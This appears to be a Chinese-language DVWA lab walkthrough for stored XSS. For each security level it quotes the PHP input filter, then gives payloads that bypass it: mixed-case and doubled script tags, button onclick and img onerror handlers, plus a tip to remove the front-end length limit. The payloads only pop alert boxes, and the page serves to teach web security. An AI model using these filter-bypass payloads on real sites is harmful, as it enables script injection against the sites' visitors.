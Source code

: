 ### Security Medium



可以看到源码中进行过滤

```
$name = str_replace( '<script>', '', $name );
```

那我们直接双写绕过或者是大小写绕过

还有一个就是前端进行了输入的长度限制，这里直接F12修改一下就好了

```
<Script>alert(1)</Script>
```

这样子每次访问这个Stored页面的时候都会弹窗了



下面是双写绕过，也是OK的。

```
<scr<script>ipt>alert(1)</script>
```



### Security High

还是一样进行过滤

```php
$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
```



做法其实和反射型的差不多，直接使用其他的触发方式即可

```
<button onclick=alert(1) >xss</button>
```

```
<img src=1 onerror=alert(/xss/)>
```



### Security Impossible

防护程序对输入的值进行了一些处理

```php
$message = trim( $_POST[ 'mtxMessage' ] );
$name    = trim( $_POST[ 'txtName' ] );
$message = stripslashes( $message );
$message = htmlspecialchars( $message );
$name = stripslashes( $name );
$name = htmlspecialchars( $name );
```
